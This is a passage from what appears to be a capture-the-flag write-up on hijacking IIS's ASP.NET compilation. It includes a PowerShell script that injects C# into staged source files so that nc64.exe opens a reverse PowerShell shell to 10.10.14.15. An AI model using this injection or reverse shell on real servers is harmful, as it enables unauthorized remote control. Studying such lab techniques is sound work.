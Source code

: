     -a----        5/28/2021   1:14 PM           9243 zgj5iqtm.cmdline
    -a----        5/28/2021   1:14 PM              0 zgj5iqtm.err
    -a----        5/28/2021   1:15 PM            364 zgj5iqtm.out
    -a----        5/28/2021   1:14 PM              0 zgj5iqtm.tmp
    -a----        5/28/2021   1:15 PM            354 _layout.c.md.639c3968.compiled
    -a----        5/28/2021   1:15 PM            342 _viewstart.c.md.65a2d1ee.compiled



## Timing Attack

### Strategy

There's a timing attack here that ff5 found that's really clever. I'll
delete the full directory for the site running as SYSTEM. The next time
someone tries to access the site, IIS will stage the source code files
into this directory and compile them. I'll use a PowerShell script to
watch for a file with a name matching `App_Web_*.0.cs`, and when that
file exists, change it, adding in some additional code that run a
binary. ff5's script triggered `C:\programdata\q.exe`, but I'll use
`nc`. As long as those changes are made before the compilation uses the
file, the binary will have the call of the exe in there, and that exe
will be run on each request to the site.

### Script

The script I'm going to use (written by ff5 with modified payload) is:



    $folder = 'C:\windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157'
    $filter = 'App_Web_*.*.cs'
     
    $fsw = New-Object IO.FileSystemWatcher $folder, $filter -Property @{IncludeSubdirectories = $false;NotifyFilter = [IO.NotifyFilters]'FileName, LastWrite, LastAccess'} 
     
    $global:trig = 0
    $global:pwn = @"
    Execute() {
        System.Diagnostics.Process process = new System.Diagnostics.Process();
        System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
        startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
        startInfo.FileName = "c:\\programdata\\nc64.exe";
        startInfo.Arguments = "10.10.14.15 443 -e powershell";
        process.StartInfo = startInfo;
        process.Start();

    "@
     
    Register-ObjectEvent $fsw Changed -SourceIdentifier FileChanged -Action { 
        $name = $Event.SourceEventArgs.Name 
        $changeType = $Event.SourceEventArgs.ChangeType 
        $timeStamp = $Event.TimeGenerated 
        Write-Host "The file '$name' was $changeType at $timeStamp" -fore white 
        if($name -like 'App_Web_*.0.cs' -AND $global:trig -eq 0) {
            Write-Host "Current trig: $global:trig by '$name'"
            $global:trig = 1;
            $src = get-content $name;
            $src = $src -replace 'Execute\(\) {$', $global:pwn
            $src = $src -replace 'using System;$', 'using System; using System.Diagnostics;'
            echo $src > $name
        }
    } 
